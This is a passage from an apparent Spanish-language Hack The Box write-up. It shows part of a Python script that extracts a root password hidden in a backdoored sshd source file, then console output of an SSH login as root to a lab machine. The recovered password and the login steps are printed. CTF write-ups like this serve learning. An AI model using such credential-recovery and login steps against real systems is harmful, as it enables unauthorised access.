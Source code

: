 ```python
    data_big = littleToBig(data_litt)
    time.sleep(1)
    password = hexToAscii(data_big)
    time.sleep(1)
    p = log.progress('Password')
    p.success(password)

# main
if __name__ == '__main__':
    run()
```

> El scripts requiere algunos archivos para su uso, los encuentras en mi repositorio: [https://github.com/E1P0TR0/](https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/Auto-tools_Undetected/decryptPassSSHDbinary)
{: .prompt-info}

Ahora solo nos queda ejecutar el script, obtenemos la clave de **root**, nos logeamos por **SSH** y pa-dentro:

```console
❯ ./convertPass.py auth_password.c
[.] Extracting data from the file: Success!
[../.....] Swaping endianndess: Success!
[./......] Converting hexadecimal to ascii data: Success!
[+] Password: @=qfe5%2^k-aq@%k@%6k6b@$u#f*b?3

❯ sshpass -p '@=qfe5%2^k-aq@%k@%6k6b@$u#f*b?3' ssh root@10.10.11.146
Last login: Fri Apr 29 17:03:53 2022 from 10.10.14.117
root@production:~# whoami
root
root@production:~# find / -name root.txt | xargs ls -l
-rw-r----- 1 root root 33 Apr 29 04:24 /root/root.txt
```

* * *

